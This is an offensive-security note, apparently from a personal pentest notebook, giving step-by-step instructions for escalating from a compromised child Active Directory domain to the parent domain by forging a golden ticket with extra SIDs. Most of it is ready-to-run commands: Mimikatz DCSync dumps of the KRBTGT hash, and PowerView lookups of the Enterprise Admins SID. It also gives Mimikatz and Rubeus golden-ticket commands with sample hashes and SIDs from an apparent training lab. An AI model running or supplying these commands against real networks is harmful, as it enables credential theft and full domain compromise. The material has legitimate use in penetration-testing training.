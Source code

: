-- -
This is a trust relationship attack that you pull off after you have taken over a child domain. It is used to take over the parent domain by abusing the trust relationship and SIDs. 
#### Requirements
- The `KRBTGT` hash for the child domain
- The `SID` for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The `FQDN` of the child domain.
- The `SID` of the Enterprise Admins group of the root domain
- Mimikatz
## Windows
#### Get KRBTGT via Golden Ticket Attack
We are attempting to get a KRBTGT. KRBTGT Stands for Kerberos Ticket Granting Ticket. It's a ticket for the Service Account used to encrypt and sign all Kerberos tickets granted within the given domain. Can be used to request TGS tickets for any service on any host in the domain. Also known as the #GoldenTicket. This is a well-known #persistence method. 
After you have domain admin (or similar), log into said privileged account on a host (or DC) in the domain. Run DCSync attack to obtain the hash for the KRBTGT account.
```powershell
.\mimikatz.exe
privilege::debug
lsadump::dcsync /user:<domain>\krbtgt
lsadump::dcsync /user:LOGISTICS\krbtgt
```

The child domain SID should be output by mimikatz if you use the method linked above, but otherwise you can also determine this by running the following on the child domain you have compromised via PowerView:
```powershell
Get-DFomainSID
```
#### Get Enterprise Admins Group's SID
```Powershell
# PowerView
Get-DomainGroup -Domain <domain> -Identity "Enterprise Admins" | select distinguishedname,objectsid
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid

#Powershell
Get-ADGroup -Identity "Enterprise Admins" -Server <domain>
Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL".
```
#### Create Golden Ticket
**mimikatz**
```powershell
mimikatz.exe
kerberos::golden /user:<username> /domain:<domain> /sid:<child domain sid> /krbtgt:<krbtgt hash> /sids:<enterprise admin sid> /ptt

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt

# verify golden ticket was created and resides in memory, run outside mimikatz
klist
```

**Rubeus**
```powershell
.\Rubeus.exe golden /rc4:<krbtgt hash> /domain:<domain> /sid:<child domain sid> /sids:<enterprise admin sid> /user:<username> /ptt

.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

# verify golden ticket was created and resides in memory
klist
```
#### DCSync attack
```powershell
.\mimikatz.exe
lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

## Linux
#### Get KRBTGT NTLM hash of Child-Domain
Perform a DCSync attack on the child domain to dump the NTLM hash of the KRBTGT of the child-domain.
![[Dark Arts/Tools/Active Directory/Impacket/secretsdump#^c004aa]]
